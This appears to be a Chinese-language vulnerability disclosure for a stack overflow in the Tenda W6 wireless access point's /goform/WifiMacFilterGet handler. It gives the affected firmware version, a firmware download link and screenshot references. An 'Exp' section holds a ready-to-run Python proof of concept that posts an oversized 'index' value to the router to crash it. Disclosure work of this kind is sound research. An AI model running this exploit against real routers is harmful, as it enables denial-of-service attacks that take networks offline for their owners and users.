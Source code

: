 # Tenda W6 栈溢出漏洞

## 设备漏洞介绍 
Tenda W6是中国深圳腾达科技（Tenda）公司的一款企业无线AP路由器。

Tenda W6 V1.0.0.9(4122) 版本中的/goform/WifiMacFilterGet存在栈溢出漏洞，攻击者可利用此漏洞通过index参数导致拒绝服务 (DoS)。

固件下载地址：https://www.tenda.com.cn/download/detail-2576.html

## 漏洞位置
/goform/WifiMacFilterGet

formWifiMacFilterGet()函数

![image-20220708141723625](pic/image-20220708141723625.png)

![image-20220708141752749](pic/image-20220708141752749.png)



![image-20220708141838963](pic/image-20220708141838963.png)

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/WifiMacFilterGet"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x140

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [Please see the video for the demonstration process](./video/1.mp4)